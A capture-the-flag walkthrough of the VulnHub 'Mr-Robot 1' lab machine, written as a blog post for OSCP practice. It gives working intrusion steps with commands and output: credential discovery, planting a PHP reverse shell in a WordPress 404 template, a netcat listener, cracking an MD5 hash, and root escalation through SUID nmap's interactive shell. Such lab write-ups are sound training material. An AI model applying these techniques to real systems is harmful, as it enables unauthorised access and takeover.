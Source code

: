 ```yaml
---
title:  "Mr-Robot 1 Walkthrough"
header: "Mr-Robot 1 Walkthrough"
categories: 
  - walkthroughs
tags:
  - vulnhub
---
```


I haven't had a chance to watch all of the Mr. Robot series but this machine was a lot of fun. What I particularly like is that you are rewarded if you properly enumerate. If you don't properly enumerate you can still break into the machine, it simply just takes you a lot longer. If you plan on going for the OSCP, this would be another good machine to play around with.  

# Host Enumeration  
***

I started by performing an nmap scan to see what open ports and services were present  

`nmap -T4 -A -v <IP>`  

After running the scan, it appears that only ports 80 and 443 are open for this machine.

# Service Enumeration  
***

While I kicked off a Dirb and Nikto scan, I navigated the webpage but didn't find anything of particular interest.

![Home page](/assets/images/mrrobothome.jpg)  

Next I checked to see if a robots.txt was present and it was. This revealed two files
- **fsocity.dic -** Appears to be a dictionary file for brute forcing
- **key-1-of-3.txt -** Contains flag 1 "073403c8a58a1f80d943455fb30724b9"

I returned to my Dirb scan results and opened up a file "license" and found "ZWxsaW90OkVSMjgtMDY1Mgo=" which appears to be base64 encoded. Normally I navigate to a website to decode base64 but wanted to try a way on my Kali box.  

```bash
root@kali:~# echo ZWxsaW90OkVSMjgtMDY1Mgo= | base64 -d
elliot:ER28-0652
```

My Nikto/Dirb lead me to the default WordPress login screen `wp-login/` in which I logged in with the above newly discovered credentials.

![WordPress Login](/assets/images/mrrobotwplogin.jpg)  

# Breach  
***

As per usual, you look for ways to upload some type of code and I found a way via `Appearance > Editor`.  I simply loaded a reverse PHP shell at the bottom of "404 Template/404.php". 

![404 Page](/assets/images/mrrobot404.jpg)  

**Side-Note:** This is a great exercise to create one via msfvenom which you can see instructions [here](http://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/). If you're short on time or simply want to try another method, [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is a great php reverse shell and you only need to configure the IP and port.
{: .notice--info}

I set up a listener on my attacking machine by running `nc -nvlp 1234`. I then navigated to the 404.php URL and was presented with a reverse shell.

![Reverse Shell](/assets/images/mrrobotrevshell.jpg)  

I got a TTY shell by executing `python -c 'import pty; pty.spawn("/bin/sh")'`. I found two files of interest in /home/robot. I didn't have access to view the second key but the password file had a username and hash in it.

```bash
$ ls -al
ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

I utilized [CrackStation](https://crackstation.net/) to crack the hash and was came up with "abcdefghijklmnopqrstuvwxyz"

![Cracked Hash](/assets/images/mrrobothash.jpg)  

I then simply logged in as the robot user and could access the second key

```bash
$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat /home/robot/key-2-of-3.txt
cat /home/robot/key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

# Privilege Escalation  
***

In my standard enumeration process, I noticed nmap with SUID binary set to root. Certain versions allow for a popular way of running commands as root.

```bash
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id    
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
```

The last key is located in "/root/key-3-of-3.txt"

```bash
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

# Review  
***

I had a lot of fun with this one. It's certainly a good one for OSCP'ers and anyone looking for a quick challenge. I loved reading about the nmap trick and testing some of my reverse shells.
